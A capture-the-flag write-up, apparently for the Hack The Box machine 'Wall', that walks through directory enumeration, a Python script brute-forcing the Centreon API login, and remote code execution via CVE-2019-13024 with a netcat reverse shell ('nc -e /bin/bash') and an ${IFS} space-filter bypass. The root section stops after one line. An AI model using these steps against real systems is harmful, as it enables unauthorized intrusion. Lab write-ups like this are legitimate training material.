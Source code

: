 ```yaml
---
title: Wall HTB Writeup
date: '2020-01-31 20:55:00'
categories: ["htb"]
banner_img: /img/Wall.png
---
```


# Wall 🧱

From port scanning two ports are only available `22,80`.

All I see in this port is the default page of apache2. So I fire up gobuster at this time.

`gobuster dir -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.157/ -o port80`, which gives me back:

```
/monitoring (401)
```
visiting /monitoring gives me a basic auth form, but I don't know any logins,atm. So I run another gobuster but this time with .php extension.

`gobuster dir -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.157/ -o port80withphp -x .php` gives me back:

```
aa.php
/monitoring
panel.php
```
 - aa.php === *1*
 - panel.php === *just a test for php file !*

But again nothing of interest. I tried to brute force the /monitoring directory by using hydra even tho I didn't knew a single username, but again i failed to find something. 

I open the request to /monitoring using burp and change the request from `GET /monitoring/` to `POST /monitoring/` I get a redirect which sends me to `/monitoring/'/centreon'`. 

We have a new directory: `/centreon/`

I search and find that I can use their api to send authentication requests, and at this time I create a script to do that for me:

```
import requests

URL = "http://10.10.10.157/centreon/api/index.php?action=authenticate"

with open('/home/fuxsocy/.local/share/Trash/files/rockyou.txt', 'r') as f:
	for i in f:
		i = i.strip('\n')
		PARAMS = {"username":"Admin", "password": i}
		r = requests.post(url = URL, data=PARAMS)
		if "Bad" in r.text:
			pass
		else:
			print("Found password: %s" % i)

``` 
The password is `password1`(Don't ever use this as password PLEASE 😂).

I login using that password on the interface. Looking at the version I found out version *19.04* has a rce.

I follow this post https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/.

Basically what you have to do to gain rce is to visit `http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1` and at the *Monitoring Engine Binary* put a command, like you do on a terminal and then visit `10.10.10.157/centreon/include/configuration/configGenerate/xml/generateFiles.php` to get rce. 

But putting nc -e /bin/bash {IP}, does not work. After trying I got it working by putting `{$IFS}` instead of a space.

*The Internal Field Separator (IFS) that is used for word splitting after expansion and to split lines into words with the read builtin command.*



# Root

there is a screen vulnerability!
